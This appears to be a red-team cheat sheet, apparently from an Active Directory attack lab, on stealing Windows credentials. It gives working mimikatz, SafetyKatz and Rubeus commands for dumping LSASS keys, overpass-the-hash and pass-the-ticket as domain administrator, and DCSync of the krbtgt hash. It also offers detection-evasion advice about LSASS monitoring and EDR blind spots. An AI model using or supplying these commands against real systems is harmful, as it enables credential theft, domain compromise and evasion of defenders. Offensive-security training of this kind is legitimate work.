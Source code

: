 ### mimikatz
mimikatz can be used to extract credentials, tickets, replay credentials,
play with AD security and more.

Dump credentials
```powershell
mimikatz.exe -Command '"sekurlsa::ekeys"'
```

Using SafetyKatz (Minidump of lsass and PELoader to run mimikatz)
```powershell
Loader.exe SafetyKatz.exe "sekurlsa::ekeys"
Loader.exe SafetyKatz.exe "sekurlsa::evasive-keys"
```

### OverPass-The-Hash
Over Pass the hash (OPTH) generate tokens from hashes or keys - Kerberos only

> [!NOTE] **NOTE**
> Difference between `PTH` and `OPTH` is PTH` `uses local users and `OPTH` uses a domain users credentials to generate tickets and run processes in their context

Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs
elevation 
```powershell
Loader.exe SafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local/aes256:<aes256keys> /run:cmd.exe" "exit"
```

The above commands starts a process with a logon type 9 (same as runas
/netonly). This means that if you run a `whoami` it will still show as the low priv user, but when you access domain resources it will use the domain administrator credentials.

Rubeus (does not need elevation) - this overwrites your current tickets
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

Elevation required to create a new process
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### DCSync
To extract credentials from the DC without code execution on it, we can
use DCSync

To use the DCSync feature for getting `krbtgt` hash execute the below
command with DA privileges for dcorp domain:
```powershell
Loader.exe SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```


Local Security Authority (`LSA`) is responsible for authentication on a Windows
machine. Local Security Authority Subsystem Service (`LSASS`) is its service.

`LSASS` stores credentials in multiple forms - NT hash, AES, Kerberos tickets and
so on.
- Credentials are stored by `LSASS` when a user:
- Logs on to a local session or RDP
- Uses RunAs
- Run a Windows service
- Runs a scheduled task or batch job
- Uses a Remote Administration tool

The `LSASS` process is therefore a very attractive target. It is also the most monitored process on a Windows machine.

**DONT TOUCH LSASS IF YOURE WORRIED ABOUT GETTING DETECTED**

Some of the credentials that can be extracted without touching `LSASS`.
- SAM hive (Registry) - Local credentials
-  `LSA` Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc. **NOT EVERY EDR WATCHES THE SECURITY HIVE**
- PowerShell console history
- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc.